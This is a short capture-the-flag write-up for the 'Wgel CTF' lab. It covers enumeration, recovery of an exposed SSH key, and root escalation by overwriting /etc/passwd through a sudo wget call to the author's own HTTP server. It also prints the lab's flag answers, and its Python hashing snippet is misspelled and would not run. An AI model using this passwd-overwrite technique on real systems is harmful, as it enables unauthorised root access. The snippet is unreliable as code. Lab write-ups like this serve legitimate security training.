 # Wgel CTF

> Mihai Stanciu | February 03, 2021

```
export ip=10.10.190.56
```
## Enumeration

* Nmap scan in `nmap/initial`

* Gobuster search returns nothing

* Nikto scan returns nothing

* Found comment on web page `Jessie don't forget to update the website!` -- username `jessie`

* Found `id_rsa` at `$ip/sitemap/.ssh`

## Task 1

1. Find the user flag

```
057c67131c3d5e42dd5cd3075b198ff6
```

### Privesc method

* Found `wget` able to be run as `root` by non-root user `jessie`
* Copied `/etc/passwd` and added password for `root`

```py
import cypt

print(cript.cript("password_to_use"))
``` 

* Opened a simple http server on my machine using _python_

```
python3 -m http.server
```

* Uploaded the new `passwd` file to `/etc/passwd`

```
sudo wget http://$my_ip:8000/passwd -O /etc/passwd
```

* Gained _root privelages_ and found the root flag in `/root/root_flag.txt`

2. Find the root flag

```
b1b968b37519ad1daa6408188649263d
```